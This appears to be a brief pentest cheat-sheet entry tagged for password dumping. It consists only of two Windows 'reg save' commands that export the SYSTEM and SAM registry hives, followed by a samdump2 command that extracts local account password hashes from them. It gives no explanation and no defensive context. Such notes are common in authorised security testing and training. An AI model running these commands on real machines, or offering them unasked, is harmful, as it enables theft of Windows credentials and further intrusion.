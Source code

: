 #dumping #password

```cmd
reg save hklm\system system
```

```cmd
reg save hklm\sam sam
```

```bash
samdump2 system sam 
```
